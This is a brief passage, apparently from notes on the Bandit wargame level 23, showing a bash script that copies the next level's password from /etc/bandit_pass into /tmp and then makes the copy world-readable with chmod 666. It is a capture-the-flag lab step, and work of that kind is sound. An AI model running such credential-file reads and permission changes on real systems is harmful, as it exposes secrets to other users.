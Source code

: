 First script for bandit23

```bash 
#! /bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/boob/password

```

<Make password accesssible by all>
chmod 666 password